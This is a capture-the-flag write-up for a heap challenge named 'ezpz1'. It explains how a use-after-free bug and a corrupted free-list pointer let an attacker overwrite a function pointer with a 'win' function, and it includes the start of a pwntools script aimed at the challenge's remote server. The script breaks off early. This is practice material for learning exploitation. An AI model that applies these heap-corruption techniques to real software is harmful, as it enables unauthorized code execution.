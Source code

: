 
## ezpz1

---

FLAG{REDACTED}

---

The point to this one was finding out that the chunks are malloc from the bin list in reverse order. This along with the use-after-free exploit, lets you write to both the header/function pointer area and the string area, using the pointers to "strings" of two different chunks.

1. Malloc 2 chunks
2. Delete both chunks
3. Remove one of the chunks from the bins list by setting the pointer to the next free element to be some garbage.
4. malloc another chunk, which now contains the pointer to the header of the first chunk as the pointer to the string which we write to.
5. Overwrite the pointer to the `print_question` function with the `win` function
6. `cat flag`

```python
#!/usr/bin/python3

from pwn import *

#p = process('./ezpz1')
p = remote('plsdonthaq.me', 7001)
#gdb.attach(p)

# create question
def create():
	p.readuntil('choice,')
	p.sendline('c')

# delete question
def delete(index):
	p.readuntil('choice,')
	p.sendline('d')
	p.readuntil('id:')
	p.sendline(str(index))

# setting question
def setQuestion(index, question):
	p.readuntil('choice,')
	p.sendline('s')
	p.readuntil('id')
	p.sendline(str(index))

	p.readuntil('question')
	p.sendline(question)

def askQuestion(index):
	p.readuntil('choice,')
	p.sendline('a')
	p.readuntil('id')
	p.sendline(str(index))

# create question
create()
create()

# delete question
delete(0)
```